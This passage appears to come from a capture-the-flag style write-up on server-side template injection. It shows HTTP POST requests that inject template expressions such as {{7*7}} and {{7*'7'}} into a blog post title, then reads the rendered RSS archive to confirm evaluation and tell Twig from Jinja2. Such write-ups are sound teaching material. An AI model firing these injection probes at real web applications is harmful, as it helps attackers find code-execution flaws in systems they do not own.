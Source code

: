 ```
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>${7+7}</title></item>

        </channel>
```
Hmm... No code execution. So we follow the red arrow to `{{7*7}}`.

### Testing {{7*7}}

```
POST /post/2/update HTTP/1.1
...
title={{7*7}}&content=test&submit=Post
```

Check archive:

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>49</title></item>

        </channel>
```

The title is `49`! Amazing. Now we only have to find out wheather it's Twig or Jinja2.

The main difference between those two template engines is that Twig has more similarities to Javascript when it comes to certain operations, while Jinja2 is similar to Python.

E.g: `{{7*'7'}}` will result in `49` for Twig and `7777777` for Jinja2. Let's test for that payload!

### Testing {{7*'7'}}

```
POST /post/2/update HTTP/1.1
...
title={{7*'7'}}&content=test&submit=Post
```

Check archive:

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>7777777</title></item>

        </channel>	
```

